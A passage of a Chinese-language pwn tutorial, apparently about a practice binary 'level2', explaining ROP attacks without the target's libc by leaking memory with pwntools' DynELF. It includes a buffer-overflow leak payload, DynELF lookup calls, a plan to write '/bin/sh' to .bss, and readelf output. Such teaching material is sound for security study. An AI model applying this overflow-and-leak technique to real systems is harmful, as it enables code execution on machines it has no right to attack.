 ## Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

在没有目标机器上的`libc.so`或者具体的`linux`版本号时，通过`libc`计算`offset`构造ROP链的方式显然不可行，但是我们可以通过`memory leak(内存泄露)`来搜索内存找到`system()`的地址。
利用pwntools提供的`DynELF`模块来进行内存搜索。首先我们需要实现一个`leak(address)`函数，通过这个函数可以获取到某个地址上最少`1 byte`的数据。拿我们上文中的level2程序举例。leak函数应该是这样实现的：

```python
    def leak(address):
        payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
        p.send(payload1)
        data = p.recv(4)
        print "%#x => %s" % (address, (data or '').encode('hex'))
        return data
```

随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对`DynELF`模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到`libc.so`中`system()`在内存中的地址。
要注意的是，通过`DynELF`模块只能获取到`system()`在内存中的地址，但无法获取字符串`“/bin/sh”`在内存中的地址。所以我们在`payload`中需要调用`read()`将`“/bin/sh”`这字符串写入到程序的`.bss`段中。`.bss`段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。

```s
    There are 36 section headers, starting at offset 0x1b84:

    Section Headers:
    [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
    [ 0]                   NULL            00000000 000000 000000 00      0   0  0
    [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
    [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
    [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
    [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000020 04   A  5   0  4
    [ 5] .dynsym           DYNSYM          080481cc 0001cc 000060 10   A  6   1  4
    [ 6] .dynstr           STRTAB          0804822c 00022c 000050 00   A  0   0  1
    [ 7] .gnu.version      VERSYM          0804827c 00027c 00000c 02   A  5   0  2
    [ 8] .gnu.version_r    VERNEED         08048288 000288 000020 00   A  6   1  4
    [ 9] .rel.dyn          REL             080482a8 0002a8 000008 08   A  5   0  4
    [10] .rel.plt          REL             080482b0 0002b0 000018 08  AI  5  24  4
    [11] .init             PROGBITS        080482c8 0002c8 000023 00  AX  0   0  4
    [12] .plt              PROGBITS        080482f0 0002f0 000040 04  AX  0   0 16
    [13] .plt.got          PROGBITS        08048330 000330 000008 00  AX  0   0  8
    [14] .text             PROGBITS        08048340 000340 0001c2 00  AX  0   0 16
    [15] .fini             PROGBITS        08048504 000504 000014 00  AX  0   0  4
    [16] .rodata           PROGBITS        08048518 000518 000015 00   A  0   0  4
    [17] .eh_frame_hdr     PROGBITS        08048530 000530 000034 00   A  0   0  4
    [18] .eh_frame         PROGBITS        08048564 000564 0000ec 00   A  0   0  4
    [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
    [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
    [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
    [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
    [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
    [24] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
    [25] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
    [26] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
    [27] .comment          PROGBITS        00000000 001020 000035 01  MS  0   0  1
    [28] .debug_aranges    PROGBITS        00000000 001055 000020 00      0   0  1
    [29] .debug_info       PROGBITS        00000000 001075 0000f1 00      0   0  1
    [30] .debug_abbrev     PROGBITS        00000000 001166 000097 00      0   0  1
    [31] .debug_line       PROGBITS        00000000 0011fd 00003f 00      0   0  1
    [32] .debug_str        PROGBITS        00000000 00123c 0000e6 01  MS  0   0  1
    [33] .shstrtab         STRTAB          00000000 001a37 00014a 00      0   0  1
    [34] .symtab           SYMTAB          00000000 001324 0004c0 10     35  52  4
    [35] .strtab           STRTAB          00000000 0017e4 000253 00      0   0  1
    Key to Flags:
    W (write), A (alloc), X (execute), M (merge), S (strings)
    I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
```